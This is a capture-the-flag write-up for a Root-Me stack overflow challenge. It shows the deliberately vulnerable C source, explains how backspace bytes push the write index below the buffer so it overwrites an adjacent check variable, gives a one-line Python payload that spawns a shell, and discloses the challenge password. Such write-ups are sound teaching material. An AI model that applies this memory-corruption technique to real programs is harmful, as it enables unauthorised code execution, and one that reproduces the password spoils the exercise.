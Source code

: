 # ELF x86 - Stack buffer overflow basic 3
- Point: 25pts
- Author: [Lyes](https://www.root-me.org/Lyes?lang=en),  10 April 2015
- Level: Medium <br><br>
![image](https://user-images.githubusercontent.com/48288606/143521039-c69b3f39-c52e-4551-b2fa-9facc7ca23cf.png)

## Write-up:
This challenge is not required to use **GDB**. Look at the code:

```
#include <stdio.h>
#include <sys/time.h>
#include <sys/types.h>
#include <unistd.h>
#include <stdlib.h>
 
void shell(void);
 
int main()
{
 
  char buffer[64];
  int check;
  int i = 0;
  int count = 0;
 
  printf("Enter your name: ");
  fflush(stdout);
  while(1)
    {
      if(count >= 64)
        printf("Oh no...Sorry !\n");
      if(check == 0xbffffabc)
        shell();
      else
        {
            read(fileno(stdin),&i,1);
            switch(i)
            {
                case '\n':
                  printf("\a");
                  break;
                case 0x08:
                  count--;
                  printf("\b");
                  break;
                case 0x04:
                  printf("\t");
                  count++;
                  break;
                case 0x90:
                  printf("\a");
                  count++;
                  break;
                default:
                  buffer[count] = i;
                  count++;
                  break;
            }
        }
    }
}
 
void shell(void)
{
  setreuid(geteuid(), geteuid());
  system("/bin/bash");
}
```
We analyze the code, the variable **i** get 1 bytes of "stdin" and execute the below section, we only finish this challenge when we change the value of **check** to **0xbffffabc**<br>
The vulnerable is in the size of **buffer**. But **buffer** is declared before **check** and therefore **check** 's value can't be altered through upper overflow. <br>
![image](https://user-images.githubusercontent.com/48288606/143523511-fe54d69c-7f2b-4320-a4ba-667ce2f90df4.png)<br>

### Solution:
It's possible to make a change in **check** by lower overflow in **buffer** array. It's mean overwriting `buffer[-1]`, `buffer[-2]`,`buffer[-3]` and `buffer[-4]` revalues **check**.
With the program provided, we have 2 main functions:
- Make count increase or decrease by 1 (and print something that we don't care)
- Set **buffer** with **i** 's value
So just enter **i** with **0x08** 4 times and assign the desired value **0xbffffabc** in little endian format.

Payload: `(python -c "print('\x08'*4+'\xbc\xfa\xff\xbf')";cat) | ./ch16`

Password: Sm4shM3ify0uC4n


